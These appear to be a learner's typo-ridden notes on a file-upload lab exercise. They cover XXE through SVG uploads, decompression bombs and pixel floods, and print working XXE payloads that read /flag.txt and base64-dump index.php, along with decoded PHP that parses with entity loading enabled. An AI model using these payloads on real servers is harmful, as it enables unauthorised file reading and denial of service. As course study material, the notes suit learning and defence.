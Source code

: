Once the SVG image is displayed, we shpild get the base64-encode content of index.php which can decode to read source code.
Using XML data is not unique to SVG images, as it is also utilized by many types of documents, like PDF, Word Documents, PowerPoint Documents, among many others.

- DoS:
Many files upload vulnerablilities may lead to a Denial of Service attack on the web server, we can us the XXE payloads to achieve DoS attacks.
We can utilize [Decompression Bomb] with file types that use data compression, like ZIP archieves. If a web app automatically unzips a Zip, is possible to upload a malicius
archive containing nestes ZIP archieve.
Another possible is a [pixel flood] attack with some image files that utilize images compression, like JPG or PNG. We cna create any JPG image file iwht any image size and then manually
modify its compression data to say it has s size of [0xffff x 0xffff], which results in an image with a perceived size of 4 Gigapixels.

If the upload funtion is vulnerable to directory traversal, we may also attempt uploading files to a different direcory. Try to search for other example of DoS attacks through a vulnerable file upload
fucionality.

Exercise:
The above exercise contains an upload functionality that should be secure against arbitrary file uploads. Try to exploit it using one of the attacks shown in this section to read "/flag.txt"

First we need to veiw the source code and try to upload the payload:
```xml
// Payload save like svg cause is only accepted that.
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>
```
Before upload we can see the source code and found the flag

Try to read the source code of 'upload.php' to identify the uploads directory, and use its name as the answer. (write it exactly as found in the source, without quotes)

Is so similar but we must chage the payload:
```xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
Then in source code we found the `PD9waHAKbGlieG1sX2Rpc2FibGVfZW50aXR5X2xvYWRlcihmYWxzZSk7Cgokc3ZnX2ZpbGUgPSBmaWxlX2dldF9jb250ZW50cygnLi9pbWFnZXMvJyAuIGZpbGVfZ2V0X2NvbnRlbnRzKCcuL2ltYWdlcy9sYXRlc3QueG1sJykpOwokZG9jID0gbmV3IERPTURvY3VtZW50KCk7CiRkb2MtPmxvYWRYTUwoJHN2Z19maWxlLCBMSUJYTUxfTk9FTlQgfCBMSUJYTUxfRFRETE9BRCk7CiRzdmcgPSAkZG9jLT5nZXRFbGVtZW50c0J5VGFnTmFtZSgnc3ZnJyk7Cj8`
and Decode that and see:
```php
<?php
libxml_disable_entity_loader(false);

$svg_file = file_get_contents('./images/' . file_get_contents('./images/latest.xml'));
$doc = new DOMDocument();a
$doc->loadXML($svg_file, LIBXML_NOENT | LIBXML_DTDLOAD);
$svg = $doc->getElementsByTagName('svg');
?
```
